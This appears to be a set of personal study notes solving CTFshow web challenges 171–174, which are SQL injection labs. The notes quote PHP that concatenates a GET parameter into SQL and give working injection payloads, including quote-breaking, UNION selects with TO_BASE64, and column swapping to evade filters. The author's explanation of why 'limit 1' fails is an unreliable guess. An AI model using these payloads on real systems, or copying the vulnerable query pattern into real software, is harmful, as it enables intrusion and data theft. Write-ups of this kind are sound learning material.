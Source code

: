 # Web 171
![[Pasted image 20241214102338.png]]
```PHP
//拼接sql语句查找指定ID用户
$sql = "select username,password from user where username !='flag' and id = '".$_GET['id']."' limit 1;";
```

```SQL
select username,password from user where username !='flag' and id = '".$_GET['id']."' limit 1;
```
## Observation
PHP code is : `$sql = "xxxxx".$_GET['id']."yyyy"`
- `xxxxx`: `select username,password from user where username !='flag' and id = '`
- `yyyy`: `' limit 1; `
When we do search in this page:
- If username is not flag, and the user ID is not what we provide, the records will be displayed.
- Limit will be executed at last.
## Research

This is a typical ==string== **SQL Injection**.
- Try to use `'` to match the `'` in the string before `$_GET['id']`, so we use `{number}'`.
- Then we also need to match the `'` in the string after `$_GET['id']`, so we use `or username = 'flag`
## Experiment
![[Pasted image 20241216201104.png]]

**Why `limit 1` is invalid?** 
Guess:
- 在分布式数据库（如某些 MySQL 集群版本）中，`LIMIT` 的应用可能被推迟到查询的最终合并阶段，导致在本地节点看到多条记录。
- 某些数据库引擎（如 MySQL）可能会因为缓存问题返回过多的记录。这种情况在高并发查询时容易发生。

# Web 172
![[Pasted image 20241218062030.png]]
Use the same trick, the password says: `flag_not_here`.
![[Pasted image 20241218062133.png]]
## Observation
```PHP
//拼接sql语句查找指定ID用户
$sql = "select username,password from ctfshow_user2 where username !='flag' and id = '".$_GET['id']."' limit 1;";
```
But the returning logic:
```PHP
//检查结果是否有flag
if($row->username!=='flag'){
  $ret['msg']='查询成功';
}
```
This filters the record whose username is "flag".
## Research
So we need to avoid this filter by using Base64 coding.
### `TO_BASE64()` Method in MySQL
In the standard SQL, there is no Base64 encoding method.
However, there is `TO_BASE64()` method in MySQL and `encode()` in PostgreSQL.
### UNION SQL Injection
When in string SQL injection point, we also can use UNION method.
- Close the `'` before;
- then follow a new `SELECT` with `UNION`.
## Experiment
use:
```SQL
1' union select to_base64(username), to_base64(password) from ctfshow_user2 where username = 'flag' -- 
```
![[Pasted image 20241218063217.png]]
We can decode the password.

![[Pasted image 20241218064420.png]]

## Another Way
```SQL
select username, password from ctfshow_user2 where username != 'flag' and id = '9999' union select username, password from ctfshow_user2 where username = 'flag' limit 1;
```
to
```SQL
select username, password from ctfshow_user2 where username != 'flag' and id = '9999' union select id, password from ctfshow_user2 where username = 'flag' limit 1;
```

Change username to ID, so that avoiding the condition.

![[Pasted image 20241219064028.png]]
# Web 173
![[Pasted image 20241219064644.png]]
## Observation
```PHP
//拼接sql语句查找指定ID用户
$sql = "select id,username,password from ctfshow_user3 where username !='flag' and id = '".$_GET['id']."' limit 1;";
```
The condition of returning is:
```PHP
//检查结果是否有flag
if(!preg_match('/flag/i', json_encode($ret))){
  $ret['msg']='查询成功';
}
```
## Analysis
If we don't show the username in the returning record, the condition can be avoided.
[[#Another Way]]
```SQL
select id, username, password from ctfshow_user3 where username != 'flag' and id = '999' union select id, id, password from ctfshow_user3 where username = 'flag' limit 1;
```
## Experiment
Local Test:
![[Pasted image 20241219065519.png]]
The real test:
![[Pasted image 20241219065623.png]]

# Web 174
## Observation
```PHP
//拼接sql语句查找指定ID用户
$sql = "select id,username,password from ctfshow_user2 where username !='flag' and id = '".$_GET['id']."' limit 1;";
```
